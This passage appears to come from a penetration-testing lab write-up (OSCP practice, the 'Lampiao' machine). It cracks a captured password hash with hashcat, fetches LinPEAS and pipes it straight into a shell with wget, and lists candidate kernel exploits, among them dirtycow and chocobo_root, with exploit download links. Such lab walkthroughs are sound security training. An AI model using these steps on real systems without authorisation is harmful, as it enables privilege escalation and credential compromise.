 I will kick off hashcat in my local machine to try to crack the hash while we investigate further:

```
┌──(scr1pt3r㉿pwnbox)-[~/go/src/github.com/adrianosela/road-to-oscp/write-ups/proving-grounds/linux/play/easy/2024-03-31-Lampiao/exploit]
└─$ echo '$6$blDsHpU9$1.jyQg4uduSokEQ9Jgvo.5WkyUW52zP1XPT/PaA54y4y1ozS0WwrYcYUjfLZkBxx85gU2ROt5OpnoR5bDnbJX1' >> hashes.txt

┌──(scr1pt3r㉿pwnbox)-[~/go/src/github.com/adrianosela/road-to-oscp/write-ups/proving-grounds/linux/play/easy/2024-03-31-Lampiao/exploit]
└─$ hashcat hashes.txt /usr/share/wordlists/rockyou.txt 
...
```

Now its time for LinPEAS!

```
wget -O- --tries 1 --timeout 5 https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
--2024-04-01 00:04:54--  https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
...
```

The most notable findings are:

- Vulnerable/old version of the Linux Kernel

```
╔══════════╣ Operative system
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#kernel-exploits
Linux version 4.4.0-31-generic (buildd@lgw01-01) (gcc version 4.8.4 (Ubuntu 4.8.4-2ubuntu1~14.04.3) ) #50~14.04.1-Ubuntu SMP Wed Jul 13 01:06:37 UTC 2016
```

- MANY highly probably kernel exploits

```
+] [CVE-2017-16995] eBPF_verifier

   Details: https://ricklarabee.blogspot.com/2018/07/ebpf-and-analysis-of-get-rekt-linux.html
   Exposure: highly probable
   Tags: debian=9.0{kernel:4.9.0-3-amd64},fedora=25|26|27,[ ubuntu=14.04 ]{kernel:4.4.0-89-generic},ubuntu=(16.04|17.04){kernel:4.(8|10).0-(19|28|45)-generic}
   Download URL: https://www.exploit-db.com/download/45010
   Comments: CONFIG_BPF_SYSCALL needs to be set && kernel.unprivileged_bpf_disabled != 1

[+] [CVE-2017-1000112] NETIF_F_UFO

   Details: http://www.openwall.com/lists/oss-security/2017/08/13/1
   Exposure: highly probable
   Tags: [ ubuntu=14.04{kernel:4.4.0-*} ],ubuntu=16.04{kernel:4.8.0-*}
   Download URL: https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2017-1000112/poc.c
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2017-1000112/poc.c
   Comments: CAP_NET_ADMIN cap or CONFIG_USER_NS=y needed. SMEP/KASLR bypass included. Modified version at 'ext-url' adds support for additional distros/kernels

[+] [CVE-2016-8655] chocobo_root

   Details: http://www.openwall.com/lists/oss-security/2016/12/06/1
   Exposure: highly probable
   Tags: [ ubuntu=(14.04|16.04){kernel:4.4.0-(21|22|24|28|31|34|36|38|42|43|45|47|51)-generic} ]
   Download URL: https://www.exploit-db.com/download/40871
   Comments: CAP_NET_RAW capability is needed OR CONFIG_USER_NS=y needs to be enabled

[+] [CVE-2016-5195] dirtycow

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
```